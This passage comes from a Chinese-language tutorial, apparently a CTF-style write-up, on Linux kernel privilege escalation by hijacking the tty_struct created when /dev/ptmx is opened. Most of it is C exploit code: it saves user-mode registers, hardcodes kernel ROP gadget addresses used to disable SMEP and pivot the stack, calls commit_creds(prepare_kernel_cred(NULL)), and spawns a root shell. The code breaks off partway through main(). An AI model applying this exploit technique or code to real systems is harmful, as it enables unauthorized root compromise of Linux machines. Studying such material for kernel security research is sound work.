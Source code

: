 ### ptmx<br>
在 `/dev` 下有一个伪终端设备 ptmx ，在我们打开这个设备时内核中会创建一个 tty_struct 结构体，与其他类型设备相同，tty驱动设备中同样存在着一个存放着函数指针的结构体 `tty_operations`，并且该结构体并没有开启堆块隔离。<br>
因此思路如下：通过劫持tty_struct结构体控制`tty_operations`，修改函数指针，关闭`SMEP`保护，进行  `stack migration`,然后执行提权。<br>
代码如下：
`tty_struct位于include/linux/tty.h中，tty_operations位于include/linux/tty_driver.h`<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(void){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

size_t pop_rdi_ret = 0xffffffff810d238d;
size_t mov_cr4_rdi_pop_rbp_ret = 0xffffffff81004d80;
size_t swapgs_pop_rbp_ret = 0xffffffff81063694;
size_t iretq_ret = 0xffffffff814e35ef;
size_t mov_rsp_rax_dec_ebx_ret = 0xffffffff8181bfc5;
size_t pop_rax_ret = 0xffffffff8100ce6e;
size_t mov_rdi_rax_call_rdx = 0xffffffff810dec19;
size_t pop_rdx_ret = 0xffffffff81440b72;
size_t pop_rcx_ret = 0xffffffff8100700c;

int main(void)
{
    save_status();
```